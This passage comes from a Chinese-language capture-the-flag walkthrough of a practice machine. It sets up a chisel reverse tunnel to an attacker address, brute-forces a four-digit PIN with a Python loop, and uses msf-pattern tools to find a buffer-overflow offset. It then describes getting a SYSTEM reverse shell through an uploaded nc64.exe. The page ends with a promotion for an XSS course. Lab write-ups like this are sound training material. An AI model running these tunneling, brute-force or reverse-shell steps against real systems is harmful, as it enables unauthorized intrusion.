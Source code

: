 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KQs3d4NXzSMuibibaZmXwbnJTD9iaZhiaiaVplem3vrFtxxuupU44Yet2aDw/640?wx_fmt=png)

```
chisel.exe client 10.10.14.51:6000 R:910:127.0.0.1:910
```

隧道成功建立...

通过本地创建的隧道，链接了靶机 910 端口... 这里需要进行暴力破解四位数 PIN 码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KpJ1UYsP2dsicGsM9Z6CR4XGQDoeCJEqiaibg5JodZkibY6B2CClc6iaSjGA/640?wx_fmt=png)

可以看到... 通过简单的 python 编写 0~9999 进行爆破，0021 是 PIN 码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KicialpCh1G4dRcjgIAjgbDN3dDz7JMJobCHs6U7pYEXT7Bd1AgfSmevw/640?wx_fmt=png)

0021 是正确的... 但是继续输入任何字符，返回结果都是一样...

这里应该存在缓冲区溢出... 测试看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KWkIIwmiaibR16yxSDByFw4w0OYtOOP96v36Ry2XamwDRiabeibnT7YUUZQ/640?wx_fmt=png)

通过 AAAA 测试...42A 和 32A 之间，42A 输入后，存在缓冲区溢出值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KRVjhtMwvaW1XTLmLe3nRiaOCaictqdnUOjiaFOWWLUqjbwwwVktTASAzg/640?wx_fmt=png)

```
/usr/bin/msf-pattern_create -l 100
/usr/bin/msf-pattern_offset -q 0Ab1
```

这里利用 kali 自带的 msf-pattern_create 来输出随机生成的 100 值... 然后利用 msf-pattern_offset 将程序输出的值进行解析...

获得偏移量 32... 只要利用 32 的偏移量进行注入 shell 即可获得外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KgfNUByRwNzme3VaGNtZZ8Tb9hwJhcktjNX6TTFV8dMlHdnUY4JpLxA/640?wx_fmt=png)

通过前面提权上传的 nc64.exe，利用 python 简单把命令压缩到 32 偏量，然后输入...

成功获得了 system 权限的反向外壳...

成功获得了 root 信息...

这台靶机学习了 sql 注入，XXE 和 XSRF 外壳，python 爆破，隧道技术，缓冲区溢出等等...

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成这台简单的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/fVgib7X1icAQR9wBb9Lgpn878QJQBU7IiadjKDicaibvTU3mC3lgnvFfcL5icNF6931FDbsibuiagXN2qMROPM6HSGsg2A/640?wx_fmt=png)

**本文推荐实验：渗透 xss**

https://www.hetianlab.com/cour.do?w=1c=C9d6c0ca797abec2017041916134500001&pk_campaign=weixin-wemedia#stu

通过本课程的学习，你将学习到什么是 XSS，XSS 漏洞原理，以及如何利用 XSS 漏洞对目标系统进行渗透测试。  

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LfbzQb75ZqoK2T2YO9XTQYD0aDUibvcxdbLRqzCwlkYcn0HppvXpZuenRzjX8ibhzcibJJge9Bw9xc8A/640?wx_fmt=gif)

  

戳

  

“阅读原文”

  

  

体验免费靶场！